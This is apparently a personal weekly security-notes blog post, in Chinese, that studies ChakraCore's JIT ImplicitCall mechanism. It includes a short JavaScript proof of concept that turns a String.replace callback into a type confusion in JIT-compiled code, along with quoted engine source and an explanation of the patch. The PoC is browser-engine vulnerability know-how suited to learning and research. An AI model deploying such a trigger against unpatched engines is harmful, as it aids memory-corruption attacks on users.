 ```yaml
---
layout: post
title:  "大土豆安全笔记 2019.12.02 - 2019.12.06"
date:   2019-12-06 18:00:00 +520
categories: Security
---
```


上周五笔记本送修，水果店告诉我没有配件现货，订货加维修可能要一周时间，还以为这周的安全周报没法写了，结果周日就告诉我维修完成可以去拿，这售后可以啊！

这周主要是看ChakraCore的一些内部机制，比如回调相关的ImplicitCall机制

主要是学习的elli0tn0phack师傅的文章《Chakra漏洞调试笔记1——ImplicitCall》，这一系列文章我学到了很多，当然目前只是读了几遍，其中很多的知识点我都还在一点一点的学习，这周主要把ImplicitCall机制给学习清楚了，这里也感谢elli0tn0phack师傅和Sakura师傅耐心的指导，感谢师傅们！
- https://www.anquanke.com/post/id/180551

elli0tn0phack师傅在今年的BlueHat Shanghai也有关于浏览器安全相关的精彩演讲《Browser Script Engine Zero Days in 2018》
- https://images.seebug.org/archive/Browser_Script_Engine_Zero_Days_in_2018-EN.pdf
- https://www.microsoft.com/en-us/videoplayer/embed/RE39Zq1

这个会议的官网上有本次会议的大部分视频以及所有的Slides
- https://www.microsoft.com/china/bluehatshanghai/2019/#Agenda

关于ImplicitCall机制，它是用于防止执行回调修改了JS对象，但是JIT不知道的情况，比如`valueOf`回调里修改了数组的长度，但是JIT循环的时候还是缓存的长度，那就会造成一个越界访问

Poc
```
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

这个漏洞的成因是因为在JITed Code里触发回调修改了数组`arr`的类型，但是JIT Compiler没有意识到这一点，导致JS层数组修改了类型，但是引擎还把数组当作浮点数数组进行赋值操作

正常情况下JIT Compiler是考虑了回调改变对象内存布局这种情况的，具体实现由`Js::Var ExecuteImplicitCall`来完成
```
template <class Fn>
inline Js::Var ExecuteImplicitCall(Js::RecyclableObject * function, Js::ImplicitCallFlags flags, Fn implicitCall)
{
    // For now, we will not allow Function that is marked as HasNoSideEffect to be called, and we will just bailout.
    // These function may still throw exceptions, so we will need to add checks with RecordImplicitException
    // so that we don't throw exception when disableImplicitCall is set before we allow these function to be called
    // as an optimization.  (These functions are valueOf and toString calls for built-in non primitive types)

    Js::FunctionInfo::Attributes attributes = Js::FunctionInfo::GetAttributes(function);

    // we can hoist out const method if we know the function doesn't have side effect,
    // and the value can be hoisted.
    // 没有Side Effect的函数可以直接调用
    if (this->HasNoSideEffect(function, attributes))
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Don't call the implicit call if disable implicit call
    // 如果ImplicitCall被禁用表示不允许调用
    if (IsDisableImplicitCall())
    {
        AddImplicitCallFlags(flags);
        // Return "undefined" just so we have a valid var, in case subsequent instructions are executed
        // before we bail out.
        return function->GetScriptContext()->GetLibrary()->GetUndefined();
    }

    if ((attributes & Js::FunctionInfo::HasNoSideEffect) != 0)
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Save and restore implicit flags around the implicit call

    // 此时明确有回调且有Side Effect，所以设置saveImplicitCallFlags的值
    Js::ImplicitCallFlags saveImplicitCallFlags = this->GetImplicitCallFlags();
    Js::Var result = implicitCall();
    this->SetImplicitCallFlags((Js::ImplicitCallFlags)(saveImplicitCallFlags | flags));
    return result;
}
```

函数`RegexHelper::StringReplace`实现的地方，可以看到直接调用用户定义的函数，没有做检查
```
Var RegexHelper::StringReplace(JavascriptString* match, JavascriptString* input, JavascriptFunction* replacefn)
{
    CharCount indexMatched = JavascriptString::strstr(input, match, true);
    ScriptContext* scriptContext = replacefn->GetScriptContext();
    Assert(match->GetScriptContext() == scriptContext);
    Assert(input->GetScriptContext() == scriptContext);

    if (indexMatched != CharCountFlag)
    {
        Var pThis = scriptContext->GetLibrary()->GetUndefined();
        // 调用用户定义的函数
        Var replaceVar = CALL_FUNCTION(scriptContext->GetThreadContext(), replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);  // <--
        JavascriptString* replace = JavascriptConversion::ToString(replaceVar, scriptContext);
        const char16* inputStr = input->GetString();
        const char16* prefixStr = inputStr;
        CharCount prefixLength = indexMatched;
        const char16* postfixStr = inputStr + prefixLength + match->GetLength();
        CharCount postfixLength = input->GetLength() - prefixLength - match->GetLength();
        CharCount newLength = prefixLength + postfixLength + replace->GetLength();
        BufferStringBuilder bufferString(newLength, match->GetScriptContext());
        bufferString.SetContent(prefixStr, prefixLength,
                                replace->GetString(), replace->GetLength(),
                                postfixStr, postfixLength);
        return bufferString.ToString();
    }
    return input;
}
```

为什么最后面的标志位可以用于判断是否有回调呢？

我们来看Patch后的调用，传入的是`ImplicitCall_Accessor`，对应的值是`0x04`，最后通过`|`就不是原来的值，所以JIT在检查的时候，一看`ImplicitCallFlags`不是原来的值，那就说明`ExecuteImplicitCall`判断这里存在回调，所以直接BailOut到Interpreter去解释执行
```
ThreadContext* threadContext = scriptContext->GetThreadContext();
Var replaceVar = threadContext->ExecuteImplicitCall(replacefn, ImplicitCall_Accessor, [=]()->Js::Var
{
    Var pThis = scriptContext->GetLibrary()->GetUndefined();
    return CALL_FUNCTION(threadContext, replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);
});

enum ImplicitCallFlags : BYTE
{
    ImplicitCall_HasNoInfo = 0x00,
    ImplicitCall_None = 0x01,
    ImplicitCall_ToPrimitive = 0x02 | ImplicitCall_None,
    ImplicitCall_Accessor = 0x04 | ImplicitCall_None,
    ImplicitCall_NonProfiledAccessor = 0x08 | ImplicitCall_None,
    ImplicitCall_External = 0x10 | ImplicitCall_None,
    ImplicitCall_Exception = 0x20 | ImplicitCall_None,
    ImplicitCall_NoOpSet = 0x40 | ImplicitCall_None,
    ImplicitCall_All = 0x7F,
    ImplicitCall_AsyncHostOperation = 0x80
};
```

之前分析的SamsungSMT逻辑提权漏洞，详细分析写了一半后来就没动了，看看下周写完给发出来吧，我喜欢逻辑漏洞，剩下的时间多看看编译原理，现在再来看编译原理感觉能和编译器很多知识点对应上，很有趣:))